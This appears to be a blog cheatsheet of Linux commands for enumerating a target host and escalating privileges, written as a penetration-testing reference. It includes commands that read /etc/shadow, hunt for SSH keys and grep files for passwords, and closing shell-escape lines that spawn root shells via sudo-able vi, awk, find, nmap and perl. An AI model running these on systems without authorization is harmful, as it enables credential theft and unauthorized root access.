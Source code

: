 
Local Linux Enumeration & Privilege Escalation Cheatsheet
Posted on June 3, 2013 by owen

The following post lists a few Linux commands that may come in useful when trying to escalate privileges on a target system. This is generally aimed at enumeration rather than specific vulnerabilities/exploits and I realise these are just the tip of the iceberg in terms of what’s available.



 Revision 1.2 (Minor January 2017 update)

Kernel, Operating System & Device Information:
Command 	Result
uname -a 	Print all available system information
uname -r 	Kernel release
uname -n 	System hostname
hostname 	As above
uname -m 	Linux kernel architecture (32 or 64 bit)
cat /proc/version 	Kernel information
cat /etc/*-release 	Distribution information
cat /etc/issue 	As above
cat /proc/cpuinfo 	CPU information
df -a 	File system information



Users & Groups:
Command 	Result
cat /etc/passwd 	List all users on the system
cat /etc/group 	List all groups on the system
for i in $(cat /etc/passwd 2>/dev/null| cut -d":" -f1 2>/dev/null);do id $i;done 2>/dev/null 	List all uid’s and respective group memberships
cat /etc/shadow 	Show user hashes – Privileged command
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}' 	List all super user accounts
finger 	Users currently logged in
pinky 	As above
users 	As above
who -a 	As above
w 	Who is currently logged in and what they’re doing
last 	Listing of last logged on users
lastlog 	Information on when all users last logged in
lastlog –u %username% 	Information on when the specified user last logged in
lastlog |grep -v "Never" 	Entire list of previously logged on users



User & Privilege Information:
Command 	Result
whoami 	Current username
id 	Current user information
cat /etc/sudoers 	Who’s allowed to do what as root – Privileged command
sudo -l 	Can the current user perform anything as root
sudo -l 2>/dev/null | grep -w 'nmap|perl|'awk'|'find'|'bash'|'sh'|'man'

|'more'|'less'|'vi'|'vim'|'nc'|'netcat'|python

|ruby|lua|irb' | xargs -r ls -la 2>/dev/null 	Can the current user run any ‘interesting’ binaries as root and if so also display the binary permissions etc.



Environmental Information:
Command 	Result
env 	Display environmental variables
set 	As above
echo $PATH 	Path information
history 	Displays command history of current user
pwd 	Print working directory, i.e. ‘where am I’
cat /etc/profile 	Display default system variables
cat /etc/shells 	Display available shells



Interesting Files:
Command 	Result
find / -perm -4000 -type f 2>/dev/null 	Find SUID files
find / -uid 0 -perm -4000 -type f 2>/dev/null 	Find SUID files owned by root
find / -perm -2000 -type f 2>/dev/null 	Find GUID files
find / -perm -2 -type f 2>/dev/null 	Find world-writeable files
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null 	Find world-writeable files excluding those in /proc
find / -perm -2 -type d 2>/dev/null 	Find word-writeable directories
find /home –name *.rhosts -print 2>/dev/null 	Find rhost config files
find /home -iname *.plan -exec ls -la {} ; -exec cat {} 2>/dev/null ; 	Find *.plan files, list permissions and cat the file contents
find /etc -iname hosts.equiv -exec ls -la {} 2>/dev/null ; -exec cat {} 2>/dev/null ; 	Find hosts.equiv, list permissions and cat the file contents
ls -ahlR /root/ 	See if you can access other user directories to find interesting files
cat ~/.bash_history 	Show the current users’ command history
ls -la ~/.*_history 	Show the current users’ various history files
ls -la /root/.*_history 	Can we read root’s history files
ls -la ~/.ssh/ 	Check for interesting ssh files in the current users’ directory
find / -name "id_dsa*" -o -name "id_rsa*" -o -name "known_hosts" -o -name "authorized_hosts" -o -name "authorized_keys" 2>/dev/null |xargs -r ls -la 	Find SSH keys/host information
ls -la /usr/sbin/in.* 	Check Configuration of inetd services
grep -l -i pass /var/log/*.log 2>/dev/null 	Check log files for keywords (‘pass’ in this example) and show positive matches
find /var/log -type f -exec ls -la {} ; 2>/dev/null 	List files in specified directory (/var/log)
find /var/log -name *.log -type f -exec ls -la {} ; 2>/dev/null 	List .log files in specified directory (/var/log)
find /etc/ -maxdepth 1 -name *.conf -type f -exec ls -la {} ; 2>/dev/null 	List .conf files in /etc (recursive 1 level)
ls -la /etc/*.conf 	As above
find / -maxdepth 4 -name *.conf -type f -exec grep -Hn password {} ; 2>/dev/null 	Find .conf files (recursive 4 levels) and output line number where the word ‘password’ is located
lsof -i -n 	List open files (output will depend on account privileges)
head /var/mail/root 	Can we read roots mail



Service Information:
Command 	Result
ps aux | grep root 	View services running as root
ps aux | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++' 	Lookup process binary path and permissions
cat /etc/inetd.conf 	List services managed by inetd
cat /etc/xinetd.conf 	As above for xinetd
cat /etc/xinetd.conf 2>/dev/null | awk '{print $7}' |xargs -r ls -la 2>/dev/null 	A very ‘rough’ command to extract associated binaries from xinetd.conf and show permissions of each
ls -la /etc/exports 2>/dev/null; cat /etc/exports 2>/dev/null 	Permissions and contents of /etc/exports (NFS)



Jobs/Tasks:
Command 	Result
crontab -l -u %username% 	Display scheduled jobs for the specified user – Privileged command
ls -la /etc/cron* 	Scheduled jobs overview (hourly, daily, monthly etc)
ls -aRl /etc/cron* | awk '$1 ~ /w.$/' 2>/dev/null 	What can ‘others’ write in /etc/cron* directories
top 	List of current tasks



Networking, Routing & Communications:
Command 	Result
/sbin/ifconfig -a 	List all network interfaces
cat /etc/network/interfaces 	As above
arp -a 	Display ARP communications
route 	Display route information
cat /etc/resolv.conf 	Show configured DNS sever addresses
netstat -antp 	List all TCP sockets and related PIDs (-p Privileged command)
netstat -anup 	List all UDP sockets and related PIDs (-p Privileged command)
iptables -L 	List rules – Privileged command
cat /etc/services 	View port numbers/services mappings



Programs Installed:
Command 	Result
dpkg -l 	Installed packages (Debian)
rpm -qa 	Installed packages (Red Hat)
sudo -V 	Sudo version – does an exploit exist?
httpd -v 	Apache version
apache2 -v 	As above
apache2ctl (or apachectl) -M 	List loaded Apache modules
mysql --version 	Installed MYSQL version details
psql -V 	Installed Postgres version details
perl -v 	Installed Perl version details
java -version 	Installed Java version details
python --version 	Installed Python version details
ruby -v 	Installed Ruby version details
find / -name %program_name% 2>/dev/null (i.e. nc, netcat, wget, nmap etc) 	Locate ‘useful’ programs (netcat, wget etc)
which %program_name% (i.e. nc, netcat, wget, nmap etc) 	As above
dpkg --list 2>/dev/null| grep compiler |grep -v decompiler 2>/dev/null && yum list installed 'gcc*' 2>/dev/null| grep gcc 2>/dev/null 	List available compilers
cat /etc/apache2/envvars 2>/dev/null |grep -i 'user|group' |awk '{sub(/.*export /,"")}1' 	Which account is Apache running as



Common Shell Escape Sequences:
Command 	Program(s)
:!bash 	vi, vim
:set shell=/bin/bash:shell 	vi, vim
!bash 	man, more, less
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ; 	find
awk 'BEGIN {system("/bin/bash")}' 	awk
--interactive 	nmap
echo "os.execute('/bin/sh')" > exploit.nse

sudo nmap --script=exploit.nse 	nmap (thanks to comment by anonymous below)
perl -e 'exec "/bin/bash";' 	Perl
